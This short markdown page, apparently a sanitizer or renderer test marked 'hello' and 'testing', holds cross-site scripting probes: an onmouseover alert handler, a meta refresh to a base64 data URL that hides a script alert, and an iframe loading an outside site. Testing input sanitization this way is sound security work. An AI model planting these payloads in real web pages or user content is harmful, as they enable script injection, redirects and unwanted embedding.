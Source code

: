 hello
=====

testing
<A onmouseover=alert('XSS') >Click me</A>
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
<iframe src=http://www.aksitservices.co.in/index.html>
